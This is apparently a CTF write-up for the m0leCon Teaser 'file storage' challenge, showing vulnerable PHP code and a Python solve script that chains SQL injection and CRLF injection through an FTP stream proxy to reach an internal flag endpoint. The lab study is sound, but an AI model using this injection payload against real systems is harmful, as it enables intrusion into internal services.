 ```yaml
---

title: "nday: file storage - m0leCon Teaser CTF"
date: 11 September 2024
category: CRLF,SQLI
ctf: m0leCon Teaser CTF

---
```


This challenge is from the `m0leCon Teaser CTF`. It was an interesting but relatively easy challenge, so the write-up will be brief. The objective was to exploit `SQL Injection` (SQLi) and `CRLF` (Carriage Return Line Feed) vulnerabilities to retrieve the flag from an internal server. Two services were running: an FTP server and a Node.js application, alongside a PHP server running on Nginx.

---

## Services

### FTP
```dockerfile
COPY vsftpd.conf /etc/vsftpd/vsftpd.conf
```

The FTP service uses [`vsftpd`](https://en.wikipedia.org/wiki/Vsftpd), a popular FTP server for Linux.

### Node.js

```javascript
app.post("/flag", (req, res) => {
  if (!!req.headers["x-get-flag"]) {
    res.send(process.env.FLAG || "ptm{REDACTED}");
  } else {
    res.send("nope");
  }
});
```

Our goal is to send a POST request to the Node.js application with an `x-get-flag` header. In addition, there is another route, `/create-user`, which creates a new user.

### PHP

- You can sign up by completing a Proof of Work (PoW).
- You can upload and download files.

#### *The server connects to the FTP service using `fopen`*:

```php
$ftp = @fopen("ftp://{$_SESSION['user']}:{$_SESSION['password']}@ftp/$filename", 'r', false, $context);
```

This retrieves the file and sends it as a response.

---

## Vulnerabilities

### SQLi
#### In `php/www/components/file_manager.php`:

```php
$stmt = $database->prepare("INSERT INTO files (owner, filename, size) VALUES (:owner, '$filename', :size)");
```

Here, the application directly incorporates user-specified values into the SQL query, allowing us to inject in filename.

### CRLF
#### In the same file, there is a CRLF injection vulnerability:

```php
header('Content-Disposition: attachment; filename="' . urlencode($filename) . '"');
```

The same `filename` parameter introduces another vulnerability, allowing us to exploit CRLF injection.

---

## Exploit

```php
// @/php/www/components/file_manager.php
$opts = ['ftp' => $_SESSION['settings']];
$context = stream_context_create($opts);

// @/php/www/components/index.php
if (isset($_POST['settings'])) {
    $data = json_decode($_POST['settings'], true);
    if (!is_array($data)) {
        die;
    }
    $_SESSION['settings'] = $data;
}
```

The application uses session settings to create a stream context, which is user-controlled. PHP's FTP stream context allows a [`proxy`](https://www.php.net/manual/en/context.ftp.php) to be passed. By using this, we can send an HTTP request via CRLF injection.

---

### Solve Script
#### **Here is my solve script:**

```python
import requests
import urllib.parse

url = "http://localhost:8080"
name = "x HTTP/1.1\r\nHost: ftp\r\n\r\n\r\nPOST /flag HTTP/1.1\r\nx-get-flag:"
data = f"'||(SELECT x'{name.encode().hex()}')||'"

file = {'file': (data, "")}
sess = {"PHPSESSID": "21n3bc7elm25b7r7lml2r7neq1"}

if requests.post(url, files=file, cookies=sess).status_code == 200:
    conf = {'settings': '{"proxy": "tcp://ftp:3000"}'}
    if requests.post(url, data=conf, cookies=sess).status_code == 200:
        res = requests.get(url + f"?filename={urllib.parse.quote(name)}", cookies=sess)
        print(f"Flag: {res.content}")
else:
    print("Failed!")
```

---